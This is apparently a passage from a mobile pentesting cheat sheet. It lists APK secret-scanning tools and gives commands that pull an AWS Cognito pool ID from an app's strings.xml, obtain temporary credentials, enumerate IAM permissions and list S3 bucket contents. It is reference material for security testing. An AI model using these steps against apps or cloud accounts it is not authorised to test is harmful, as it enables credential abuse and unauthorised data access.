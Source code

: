 ```bash
# install
git clone https://github.com/shivsahni/APKEnum.git
cd APKEnum

# usage
python2 APKEnum.py -p $apk_file
```

### apkleaks
> Scanning APK file for URIs, endpoints & secrets.
> https://github.com/dwisiswant0/apkleaks

```bash
# install
git clone https://github.com/dwisiswant0/apkleaks
cd apkleaks/
pip3 install -r requirements.txt

# usage
python3 apkleaks.py -f $apk_file -o results.txt
```

# Enumerate AWS buckets

## Manual

1. Search in **strings.xml** for AWS key : `<string name="aws_Identify_pool_ID">$key</string>`
2. Extract data with this AWS key :

```bash
# install
apt-get install awscli
# usage
ws cognito-identity get-id --identity-pool-id $key --region $region
# region exemple : us-east-1
aws cognito-identity get-credentials-for-identity --identity-id $identity-id-from-previous-command --region $region
```

3. Enumerate permissions :

```bash
git clone https://github.com/andresriancho/enumerate-iam
cd enumerate-iam/
pip install -r requirements.txt
python enumerate-iam.py --access-key <ACCESS-KEY-ID> --secret-key <SECRET-KEY-ID> --session-token <SESSION-TOKEN-VALUE>
```

4. Get content :

```bash
export AWS_ACCESS_KEY_ID=$access_key
export AWS_SECRET_ACCESS_KEY=$secret_key
export AWS_SESSION_TOKEN=$session_token

# list aws buckets
aws s3 ls

# list content
aws s3 ls s3://$bucket_name --recursive
```
